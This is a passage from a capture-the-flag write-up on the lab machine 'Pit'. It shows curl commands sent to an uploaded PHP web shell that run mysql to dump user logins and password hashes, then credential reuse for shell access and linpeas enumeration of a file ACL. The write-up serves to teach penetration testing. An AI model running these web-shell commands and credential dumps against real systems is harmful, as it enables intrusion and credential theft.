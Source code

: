 Using mysql command line, enumerated tables, columns and then retrieved the username, pwd and role from the users in database

```bash
# List Tables
$ curl -X GET -G 'http://dms-pit.htb/seeddms51x/data/1048576/30/1.php' --data-urlencode 'cmd=mysql -u seeddms --password=ied^ieY6xoquu -e "use seeddms; select login,pwd,role from tblUsers; exit"'
[...]

# List Columns from tblUsers
$ curl -X GET -G 'http://dms-pit.htb/seeddms51x/data/1048576/34/1.php' --data-urlencode 'cmd=mysql -u seeddms --password=ied^ieY6xoquu -e "use seeddms; show columns from tblUsers; exit"'
[...]

# Dump credentials
$ curl -X GET -G 'http://dms-pit.htb/seeddms51x/data/1048576/30/1.php' --data-urlencode 'cmd=mysql -u seeddms --password=ied^ieY6xoquu -e "use seeddms; select login,pwd,role from tblUsers; exit"'
login   pwd     role
admin   155dd275b4cb74bd1f80754b61148863        1
guest   NULL    2
michelle        2345f10bb948c5665ef91f6773b3e455        0
jack    682d305fdaabc156430c4c6f6f5cc65d        0
```

With the hashes, tried to crack them using `john` and `rockyou.txt` but with no success.

As we have the database credentials, remembered that we have access to the cockpit page, where the credentials could not be validated for user `seeddms` but worked successfully for `michelle`.

Accessing the terminal from the web portal, was able to get the `user.txt` hash

```bash
[michelle@pit ~]$ ls 
check.sh  user.txt
[michelle@pit ~]$ cat user.txt
<redacted>
```

## Root flag

After submitting the flag, was unable to run `sudo -l` as usually done, so started the enumeration from `michelle`'s account using `linpeas.sh`, where nothing too interesting was found besides an uncommon file containing particular privileges.

```plaintext
╔══════════╣ Files with ACLs (limited to 50)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#acls
# file: /usr/local/monitoring
USER   root      rwx
user   michelle  -wx
GROUP  root      rwx
mask             rwx
other            ---                  
```
